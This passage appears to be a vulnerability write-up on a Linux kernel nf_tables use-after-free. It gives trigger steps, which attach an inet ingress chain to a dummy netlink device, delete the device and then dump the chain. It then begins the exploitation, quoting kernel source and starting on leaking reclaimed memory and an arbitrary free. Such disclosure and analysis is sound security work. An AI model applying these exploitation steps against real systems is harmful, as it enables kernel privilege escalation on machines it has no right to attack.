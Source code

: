 So basically, kernel finds the first hook in given chain that satisfies conditions, including

```c
case NFPROTO_INET:
    if (WARN_ON_ONCE(hooknum != NF_INET_INGRESS))
        return NULL;
    if (!dev || dev_net(dev) != net) {
        WARN_ON_ONCE(1);
        return NULL;
    }
    return &dev->nf_hooks_ingress;
```

That means it accesses to network device attached to the hook [3]

Combine [1], [2] and [3], and we have an Use-After-Free vulnerability in kernel

## Triggering Vulnerabilty

First we create a dummy device by sending a creating request to netlink socket ( All the following steps can be reproduced with commandline tool `nft` and `ip`, or get from attached PoC )

```c
rt_newlink(nl_route, "UAF_DEVICE", 1337);
```

Then create a table and a chain that link to the created device

```c
create_table(nl_nf, NFPROTO_INET, "table");
create_chain(nl_nf, NFPROTO_INET, "table", "chain", NF_INET_INGRESS, 10, "UAF_DEVICE")
```

Remove the device

```c
rt_dellink(nl_route, 1337);
```

Now if we dump the chain information, we can get old-removed device name -> UAF triggered

## Exploitation

We leverage this vulnerablity into UAF Leak and arbitrary free depend on when to "use"

### UAF Leak

When we dump the chain information, we can get old-removed device name in function `nft_dump_basechain_hook` at line [1]. It allows us to get contents of reclaimed struct/object at the first 8 bytes as a string, so we need to take care the value/address we leak later doesn't contain null byte.

```C
static int nft_dump_basechain_hook(struct sk_buff *skb, int family,
                   const struct nft_base_chain *basechain,
                   const struct list_head *hook_list)
{
...

        list_for_each_entry(hook, hook_list, list) {
            if (!first)
                first = hook;

            if (nla_put_string(skb, NFTA_DEVICE_NAME,
                       hook->ops.dev->name))  //[1]
                goto nla_put_failure;
            n++;
        }
        nla_nest_end(skb, nest_devs);

        if (n == 1 &&
```